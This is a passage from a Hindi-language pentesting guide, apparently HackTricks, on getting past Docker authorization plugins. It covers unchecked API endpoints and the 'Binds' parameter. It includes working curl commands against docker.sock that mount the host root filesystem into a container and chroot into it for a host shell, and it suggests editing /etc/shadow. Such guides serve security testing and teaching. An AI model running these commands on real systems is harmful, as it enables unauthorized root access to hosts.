 ध्यान दें कि शायद आप `/tmp` फ़ोल्डर को माउंट नहीं कर सकते हैं लेकिन आप **एक अलग लिखने योग्य फ़ोल्डर** माउंट कर सकते हैं। आप लिखने योग्य निर्देशिकाएँ खोज सकते हैं इस्तेमाल करके: `find / -writable -type d 2>/dev/null`

**ध्यान दें कि एक लिनक्स मशीन में सभी निर्देशिकाएँ suid बिट का समर्थन नहीं करेंगी!** सुयोग्यता बिट का समर्थन करने वाली निर्देशिकाओं को जांचने के लिए `mount | grep -v "nosuid"` चलाएं। उदाहरण के लिए सामान्यत: `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` और `/var/lib/lxcfs` suid बिट का समर्थन नहीं करते हैं।

ध्यान दें कि यदि आप **`/etc` को माउंट** कर सकते हैं या किसी अन्य फ़ोल्डर को **कॉन्फ़िगरेशन फ़ाइलें शामिल** करते हैं, तो आप उन्हें डॉकर कंटेनर में रूट के रूप में बदल सकते हैं ताकि आप उन्हें **होस्ट में दुरुपयोग** करने और विशेषाधिकारों को उन्नत करने के लिए उपयोग कर सकें (शायद `/etc/shadow` को संशोधित करके)
{% endhint %}

## Unchecked API Endpoint

इस प्लगइन को कॉन्फ़िगर करने वाले सिसएडमिन की जिम्मेदारी यह होगी कि वह नियंत्रित करे कि प्रत्येक उपयोगकर्ता किस क्रिया को किस विशेषाधिकारों के साथ कर सकता है। इसलिए, यदि एडमिन एंडपॉइंट्स और गुणों के साथ **काले सूची** का उपयोग करता है तो वह शायद कुछ ऐसे भूल जाएंगे जो एक हमलावर को **विशेषाधिकारों को उन्नत करने** की अनुमति दें।

आप डॉकर API की जांच कर सकते हैं [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/#)

## Unchecked JSON Structure

### रूट में बाइंड

संभावना है कि जब सिसएडमिन ने डॉकर फ़ायरवॉल कॉन्फ़िगर किया तो उसने [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) के "**Binds**" जैसे कुछ महत्वपूर्ण पैरामीटर के बारे में **भूल जाने** की संभावना है।\
निम्नलिखित उदाहरण में इस गलत कॉन्फ़िगरेशन का दुरुपयोग करना संभव है ताकि एक कंटेनर बनाया और चलाया जा सके जो होस्ट का रूट (/) फ़ोल्डर माउंट करता है:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
{% hint style="warning" %}
ध्यान दें कि इस उदाहरण में हम **`Binds`** पैरामीटर का उपयोग JSON में एक रूट स्तर कुंजी के रूप में कर रहे हैं लेकिन API में यह **`HostConfig`** कुंजी के तहत प्रकट होता है।
{% endhint %}

### HostConfig में Binds

**रूट में Binds** के साथ समान निर्देशिका का पालन करें और इस **अनुरोध** को Docker API को करें:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```
### रूट में माउंट
